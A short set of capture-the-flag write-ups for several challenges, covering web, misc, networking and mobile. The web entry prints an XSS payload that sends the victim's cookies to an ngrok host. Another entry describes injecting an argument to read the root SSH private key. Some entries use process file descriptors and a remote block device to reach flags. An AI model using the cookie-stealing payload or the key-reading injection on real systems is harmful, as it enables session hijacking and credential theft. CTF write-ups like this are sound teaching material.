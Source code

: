 # "One Line" Writeups for Short Challenges

## (Web) Star Wars
It's literally just baby's first XSS how did this get rated medium

```html
<script>fetch("http://something.ngrok.io/xss?b="+btoa(document.cookie));</script>
```

## (Misc) Wordle Bash
There's an injection vulnerability when you tell the prompt that what they showed was incorrect. I feel like you could inject arbitrary code, but I just wasn't getting it to work. Luckily, if you use GTFOBins and submit `-f /root/.ssh/id_rsa`, you get the root ssh key, and you're good.

## (Misc) zombie
There's a suspended process with the flag in memory, the question is how do you read it if the file system is read-only.

```shell
grep -iRn flag{ /dev/PID/
cat /dev/PID/fd/3
```

## (Misc) flow
You could use your very real knowledge of AWS and give into our corporate overlords, or you could just guess on the first one, look at network requests, and see that the website made a request to `https://www.projectcircuitbreaker.com/wp-content/themes/project-circuit-breaker/dist/images/flowpuzzle/p1/p1-answer.png`. Change the numbers to view the other answer keys.

It was also all client side so you could have just read JavaScript instead.

## (Networking) No Big Deal
You'll need version 3.9 of this: https://github.com/NetworkBlockDevice/nbd

```
sudo modprobe nbd
sudo ./nbd-client challenge.nahamcon.com 31179 /dev/nbd0
sudo cat /dev/nbd0 # it's a png
sudo cp /dev/nbd0 ~/nbd0.png; sudo chown kali:kali ~/nbd0.png 
```

## (Mobile) JNinjaSpeak
just use strings lol